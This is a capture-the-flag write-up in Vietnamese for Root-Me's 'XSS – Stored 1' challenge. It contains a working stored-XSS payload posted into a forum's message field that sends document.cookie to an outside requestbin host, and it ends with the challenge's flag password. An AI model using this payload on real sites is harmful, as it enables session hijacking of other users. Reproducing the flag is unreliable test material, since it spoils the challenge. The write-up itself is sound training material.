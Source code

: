 # WRITE UP

## **Challenge: [XSS – Stored 1](https://www.root-me.org/en/Challenges/Web-Client/XSS-Stored-1)**

Challenge yêu cầu ta thực hiện đánh cắp cookie phiên quản trị viên và cung cấp cho ta một website để đăng post:

<img src="./media/image1.png" style="width:4.27197in;height:3.11176in" alt="Graphical user interface, text, application, email Description automatically generated" />

Kiểm tra source thì thấy đây là một form với phương thức “POST”. Như tên đề bài, ta sẽ thực hiện XSS Stored vào input. Nhưng trước hết ta kiểm tra xem nó bị XSS ở đâu, ta được kết quả là nó bị tại ô input ‘Message’:

<img src="./media/image2.png" style="width:4.17036in;height:2.37882in" alt="Graphical user interface, text, application, email Description automatically generated" />

<img src="./media/image3.png" style="width:6.5in;height:1.09514in" alt="Text Description automatically generated" />

Đầu tiên, ta thực hiện tạo một nơi để có thể thu thập các HTTP Request với <https://requestbin.in>:

<img src="./media/image4.png" style="width:6.5in;height:2.21597in" alt="Graphical user interface, application Description automatically generated" />

Như vậy, ta có một requestbin tại <https://eojx5xx99skfihj.m.pipedream.net>:

Tiếp theo, ta có thể đoán được chắc chắn Forum v0.001 website này bị XSS, do vậy, ta thực hiện viết payload để attack vào input của form này:

Payload: &lt;script&gt;document.write("&lt;img src='https://eojx5xx99skfihj.m.pipedream.net/"+document.cookie+"'&gt;&lt;/img&gt;");&lt;/script&gt;

<img src="./media/image5.png" style="width:5.56715in;height:2.62523in" />

<img src="./media/image6.png" style="width:6.03386in;height:1.25011in" alt="Graphical user interface, text, application Description automatically generated" />

Kiểm tra request bin, ta nhận được giá trị ADMIN\_COOKIE.

<img src="./media/image7.png" style="width:6.5in;height:1.2125in" alt="A picture containing graphical user interface Description automatically generated" />

**Password:** NkI9qe4cdLIO2P7MIsWS8ofD6
